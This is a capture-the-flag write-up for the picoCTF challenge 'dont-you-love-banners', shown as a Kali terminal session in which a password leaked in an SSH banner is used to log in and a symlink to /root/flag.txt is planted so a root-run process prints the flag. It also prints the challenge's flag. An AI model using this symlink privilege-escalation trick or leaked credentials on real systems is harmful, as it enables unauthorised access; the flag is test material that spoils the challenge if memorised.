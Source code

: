 # dont-you-love-banners
Can you abuse the banner? The server has been leaking some crucial information on `tethys.picoctf.net 53698`. Use the leaked information to get to the server. To connect to the running application use `nc tethys.picoctf.net 62049`. From the above information abuse the machine and find the flag in the /root directory.
Do you know about symlinks?
Maybe some small password cracking or guessing

## Solución
Con la terminal de kali linux
```
──(kali㉿kali)-[~/Documents/srss/GeneralSkills]
└─$ nc tethys.picoctf.net 53698
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
^C
┌──(kali㉿kali)-[~/Documents/srss/GeneralSkills]
└─$ nc tethys.picoctf.net 62049
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
defcon
the first hacker ever was known for phreaking(making free phone calls), who was it?
john draper
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
player@challenge:~$ cat banner  
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
player@challenge:~$ ls -la /root
ls -la /root
total 16
drwxr-xr-x 1 root root    6 Mar  9  2024 .
drwxr-xr-x 1 root root   29 Apr 11 23:10 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar  9  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
player@challenge:~$ cat /root/flag.txt
cat /root/flag.txt
cat: /root/flag.txt: Permission denied
player@challenge:~$ sudo cat /root/flag.txt
sudo cat /root/flag.txt
-su: sudo: command not found
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ^C
                                                                                                                                                                      
┌──(kali㉿kali)-[~/Documents/srss/GeneralSkills]
└─$ nc tethys.picoctf.net 62049
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_68ca8b23}

what is the password? 

```